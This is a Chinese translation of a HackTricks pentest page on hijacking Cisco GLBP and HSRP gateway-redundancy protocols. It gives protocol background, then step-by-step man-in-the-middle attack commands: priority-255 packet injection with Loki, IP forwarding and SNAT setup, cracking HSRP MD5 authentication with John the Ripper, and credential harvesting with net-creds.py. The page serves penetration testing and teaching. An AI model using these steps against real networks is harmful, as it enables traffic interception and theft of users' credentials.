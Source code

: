 # GLBP & HSRP 攻击

{% hint style="success" %}
学习并练习 AWS 黑客技能：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习并练习 GCP 黑客技能：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## FHRP 劫持概述

### FHRP 洞察
FHRP 旨在通过将多个路由器合并为单个虚拟单元来提供网络鲁棒性，从而增强负载分配和容错能力。思科系统推出了该套件中的重要协议，如 GLBP 和 HSRP。

### GLBP 协议洞察
思科的创造，GLBP，在 TCP/IP 协议栈上运行，利用 UDP 在端口 3222 上进行通信。GLBP 组中的路由器每隔 3 秒交换一次“hello”数据包。如果路由器在 10 秒内未发送这些数据包，则被视为离线。但是，这些计时器不是固定的，可以进行修改。

### GLBP 操作和负载分配
GLBP 通过使用单个虚拟 IP 和多个虚拟 MAC 地址在路由器之间实现负载分配。在 GLBP 组中，每个路由器都参与数据包转发。与 HSRP/VRRP 不同，GLBP 通过几种机制提供真正的负载平衡：

- **主机相关负载平衡：** 为主机保持一致的 AVF MAC 地址分配，对于稳定的 NAT 配置至关重要。
- **轮询负载平衡：** 默认方法，在请求主机之间交替分配 AVF MAC 地址。
- **加权轮询负载平衡：** 根据预定义的“权重”指标分配负载。

### GLBP 中的关键组件和术语
- **AVG（活动虚拟网关）：** 负责为对等路由器分配 MAC 地址的主要路由器。
- **AVF（活动虚拟转发器）：** 指定用于管理网络流量的路由器。
- **GLBP 优先级：** 决定 AVG 的度量标准，从默认值 100 开始，范围在 1 到 255 之间。
- **GLBP 权重：** 反映路由器上的当前负载，可以手动调整或通过对象跟踪进行调整。
- **GLBP 虚拟 IP 地址：** 为所有连接设备提供网络的默认网关。

在交互方面，GLBP 使用保留的组播地址 224.0.0.102 和 UDP 端口 3222。路由器每隔 3 秒传输“hello”数据包，如果在 10 秒的持续时间内错过一个数据包，则被视为非操作。

### GLBP 攻击机制
攻击者可以通过发送优先级值最高（255）的 GLBP 数据包成为主要路由器。这可能导致 DoS 或 MITM 攻击，允许拦截或重定向流量。

### 使用 Loki 执行 GLBP 攻击
[Loki](https://github.com/raizo62/loki_on_kali) 可以通过注入优先级和权重设置为 255 的数据包执行 GLBP 攻击。攻击前的步骤包括使用诸如 Wireshark 等工具收集虚拟 IP 地址、认证存在和路由器优先级值等信息。

攻击步骤：
1. 切换到混杂模式并启用 IP 转发。
2. 确定目标路由器并检索其 IP。
3. 生成一个恶意的 Gratuitous ARP。
4. 注入一个恶意的 GLBP 数据包，冒充 AVG。
5. 为攻击者的网络接口分配一个次要 IP 地址，镜像 GLBP 虚拟 IP。
6. 实施 SNAT 以实现完整的流量可见性。
7. 调整路由以确保通过原始 AVG 路由器持续访问互联网。

通过遵循这些步骤，攻击者将自己定位为“中间人”，能够拦截和分析网络流量，包括未加密或敏感数据。

演示所需的命令片段如下：
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### HSRP劫持的被动解释及命令详细信息

#### HSRP（热备份路由器/冗余协议）概述
HSRP是思科专有协议，旨在实现网络网关冗余。它允许将多个物理路由器配置为单个逻辑单元，共享一个IP地址。这个逻辑单元由主路由器管理，负责流量导向。与GLBP不同，GLBP使用优先级和权重等指标进行负载平衡，HSRP依赖单个活动路由器进行流量管理。

#### HSRP中的角色和术语
- **HSRP活动路由器**：充当网关的设备，管理流量流向。
- **HSRP备用路由器**：备用路由器，准备在活动路由器故障时接管。
- **HSRP组**：一组路由器合作形成一个单一的弹性虚拟路由器。
- **HSRP MAC地址**：分配给HSRP设置中逻辑路由器的虚拟MAC地址。
- **HSRP虚拟IP地址**：HSRP组的虚拟IP地址，充当连接设备的默认网关。

#### HSRP版本
HSRP有两个版本，HSRPv1和HSRPv2，主要区别在于组容量、多播IP使用和虚拟MAC地址结构。该协议利用特定的多播IP地址进行服务信息交换，每3秒发送一次Hello数据包。如果在10秒内未收到数据包，则假定路由器处于非活动状态。

#### HSRP攻击机制
HSRP攻击涉及通过注入最大优先级值强制接管活动路由器的角色。这可能导致中间人攻击。攻击前的基本步骤包括收集有关HSRP设置的数据，可以使用Wireshark进行流量分析。

#### 绕过HSRP身份验证的步骤
1. 将包含HSRP数据的网络流量保存为.pcap文件。
```shell
tcpdump -w hsrp_traffic.pcap
```
2. 使用hsrp2john.py从.pcap文件中提取MD5哈希。
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. 使用John the Ripper破解MD5哈希。
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**使用Loki执行HSRP注入**

1. 启动Loki以识别HSRP广告。
2. 将网络接口设置为混杂模式并启用IP转发。
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. 使用Loki瞄准特定路由器，输入破解的HSRP密码，并执行必要的配置以冒充活动路由器。
4. 获得活动路由器角色后，配置您的网络接口和IP表以拦截合法流量。
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. 修改路由表以通过以前的活动路由器路由流量。
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. 使用net-creds.py或类似实用程序从拦截的流量中捕获凭据。
```shell
sudo python2 net-creds.py -i eth0
```

执行这些步骤将使攻击者能够拦截和操纵流量，类似于GLBP劫持的过程。这突显了冗余协议如HSRP的漏洞以及对强大安全措施的需求。
